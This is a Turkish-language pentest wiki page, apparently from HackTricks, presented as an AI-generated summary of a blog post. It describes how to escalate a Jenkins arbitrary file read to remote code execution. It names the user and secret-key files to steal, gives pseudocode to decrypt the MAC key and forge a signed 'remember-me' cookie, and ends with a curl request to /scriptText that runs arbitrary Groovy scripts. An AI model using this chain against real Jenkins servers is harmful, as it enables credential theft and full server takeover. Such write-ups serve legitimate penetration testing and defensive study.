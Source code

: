# Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Bu blog yazısında, Jenkins'teki Yerel Dosya Dahil Etme açığını RCE'ye dönüştürmenin harika bir yolunu bulmak mümkün: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Bu, bir yerel dosya okuma açığını istismar ederek RCE elde etmek için keyfi bir çerezin oluşturulmasının kötüye kullanıldığı yazının bir kısmının AI tarafından oluşturulmuş özetidir; kendi özetimi oluşturacak zamanım olana kadar:

### Saldırı Ön Koşulları

- **Özellik Gereksinimi:** "Beni hatırla" etkin olmalıdır (varsayılan ayar).
- **Erişim Düzeyleri:** Saldırganın Genel/Okuma izinlerine ihtiyacı vardır.
- **Gizli Erişim:** Anahtar dosyalardan hem ikili hem de metin içeriğini okuma yeteneği.

### Ayrıntılı İstismar Süreci

#### Adım 1: Veri Toplama

**Kullanıcı Bilgisi Alma**

- Her kullanıcı için `$JENKINS_HOME/users/*.xml` dosyasından kullanıcı yapılandırması ve gizli bilgileri erişerek toplayın:
- **Kullanıcı Adı**
- **Kullanıcı tohum**
- **Zaman damgası**
- **Şifre hash'i**

**Gizli Anahtar Çıkartma**

- Çerezi imzalamak için kullanılan kriptografik anahtarları çıkartın:
- **Gizli Anahtar:** `$JENKINS_HOME/secret.key`
- **Anahtar:** `$JENKINS_HOME/secrets/master.key`
- **MAC Anahtar Dosyası:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Adım 2: Çerez Sahteciliği

**Token Hazırlığı**

- **Token Süre Sonu Zamanını Hesaplayın:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Mevcut zamana bir saat ekler
```

- **Token için Verileri Birleştirin:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Anahtarının Şifre Çözümü**

- **MAC Anahtar Dosyasını Şifre Çözün:**

```javascript
key = toAes128Key(masterKey)  // Anahtarın AES128 anahtar formatına dönüştürülmesi
decrypted = AES.decrypt(macFile, key)  // .mac dosyasının şifre çözümü
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**İmza Hesaplama**

- **HMAC SHA256 Hesaplayın:**

```javascript
mac = HmacSHA256(token, macKey) // Token ve MAC anahtarı kullanarak HMAC hesaplama
tokenSignature = bytesToHexString(mac) // MAC'i onaltılık dizeye dönüştürme
```

**Çerez Kodlama**

- **Son Çerezi Oluşturun:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Çerez verilerini Base64 ile kodlama
```

#### Adım 3: Kod Çalıştırma

**Oturum Kimlik Doğrulaması**

- **CSRF ve Oturum Token'larını Alın:**
- `/crumbIssuer/api/json` adresine bir istek yaparak `Jenkins-Crumb` alın.
- Yanıttan `JSESSIONID`'yi yakalayın, bu `remember-me` çerezi ile birlikte kullanılacaktır.

**Komut Çalıştırma İsteği**

- **Groovy Script ile POST İsteği Gönderin:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy script, sistem düzeyinde komutları veya Jenkins ortamında diğer işlemleri çalıştırmak için kullanılabilir.

Verilen örnek curl komutu, gerekli başlıklar ve çerezlerle Jenkins'e istek yapmanın nasıl yapılacağını gösterir ve keyfi kodu güvenli bir şekilde çalıştırır.

{{#include ../../banners/hacktricks-training.md}}
